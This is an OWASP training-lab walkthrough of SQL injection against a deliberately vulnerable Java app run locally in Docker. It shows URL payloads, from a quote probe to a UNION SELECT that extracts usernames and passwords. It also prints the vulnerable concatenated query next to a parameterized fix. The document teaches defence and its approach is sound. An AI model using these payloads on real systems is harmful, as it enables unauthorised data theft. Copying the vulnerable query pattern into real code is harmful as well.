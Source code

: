 # SQLI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-sqli
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-sqli
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/1.png)

```
http://0.0.0.0:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI/2.png)

```text
http://localhost:5000/home/1'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```java
String sql = "SELECT pageId, title, content FROM pages WHERE pageId="+pageId;
```

### Step3

Now we can also use logical operators to determine whether we can actually manipulate the SQL statements.

We start with a logical operator which is false (and 1=2). The expected behaviour for injecting a false logical operator would be an error.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI/3.png)

```
http://0.0.0.0:5000/home/1 and 1=2
```

After that we inject a logical operator which is true (and 1=1). This should result in the application run as intended without errors.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/4.png)

```
http://0.0.0.0:5000/home/1 and 1=1
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI/5.png)

```
http://0.0.0.0:5000/home/1 union select 1
```

This query results in an error, this is due to the fact that the original query started with 3 columns namely\
\* pageId\
\* title\
\* content

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/6.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/7.png)

```
http://0.0.0.0:5000/home/1 union select 1,2,3
```

Notice how "title" and "content" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take an educated guess for the table we want to steal sensitive information from. Again we can see if we try to query a non existent table we get an error. For a correct table we see the application function as intended.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/java/SQLI/8.png)

```
http://0.0.0.0:5000/home/1 union select 1,2,3 from user
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/SQLI/9.png)

```
http://0.0.0.0:5000/home/1 union select 1,Username,Password from users
```

## Mitigation

SQL Injection can be prevented by following the methods described below:

Primary Defenses:

First step: White-list Input Validation\
Second step: Use of Prepared Statements (Parameterized Queries)\

Additional Defenses:

Also: Enforcing Least Privilege\
Also: Performing Allow-list Input Validation as a Secondary Defense

In this case, we have presented a SQLi code fix by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

The following code is vulnerable to SQL injection as the user input is directly concatenated into query without any form of validation:

```java
public List<Page> getPage(String pageId){
    String sql = "SELECT pageId, title, content FROM pages WHERE pageId="+pageId;
    List<Page> pages = jdbcTemplate.query(sql, (resultSet, rowNum) -> new Page(resultSet.getInt("pageId"),resultSet.getString("title"), resultSet.getString("content")));
    return pages;
}
```

This code can be easily rewritten in a way that prevent the user input from interfering with the query structure:

```java
public List<Page> getPage(String pageId){
    String sql = "SELECT pageId, title, content FROM pages WHERE pageId=?";
    List<Page> pages = jdbcTemplate.query(sql,new Object[]{pageId} , (resultSet, rowNum) -> new Page(resultSet.getInt("pageId"),resultSet.getString("title"), resultSet.getString("content")));
    return pages;
}
```

Can you try to implement input validation or escaping?

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-java/query/" %}
